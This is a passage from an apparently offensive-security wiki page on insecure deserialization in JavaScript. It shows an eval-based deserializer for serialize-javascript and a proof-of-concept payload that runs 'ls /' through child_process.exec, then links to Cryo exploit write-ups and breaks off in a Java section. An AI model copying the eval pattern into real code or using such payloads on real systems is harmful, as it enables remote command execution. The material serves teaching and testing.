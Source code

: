 <br>

### [**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)

The **serialize-javascript** package is designed exclusively for serialization purposes, lacking any built-in deserialization capabilities. Users are responsible for implementing their own method for deserialization. A direct use of `eval` is suggested by the official example for deserializing serialized data:

```javascript
function deserialize(serializedJavascript) {
  return eval("(" + serializedJavascript + ")");
}
```

If this function is used to deserialize objects you can **easily exploit it**:

```javascript
var serialize = require("serialize-javascript");
//Serialization
var test = serialize(function () {
  return "Hello world!";
});
console.log(test); //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()";
deserialize(test);
```

**For**[ **more information read this source**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

<br>

### Cryo library

In the following pages you can find information about how to abuse this library to execute arbitrary commands:

- [https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)
- [https://hackerone.com/reports/350418](https://hackerone.com/reports/350418)

## Java - HTTP

In Java, **deserialization callbacks are executed during the process of deserialization**. This execution can be exploited by attackers who craft malicious payloads that trigger these callbacks, leading to potential execution of harmful actions.

<br>

### Fingerprints

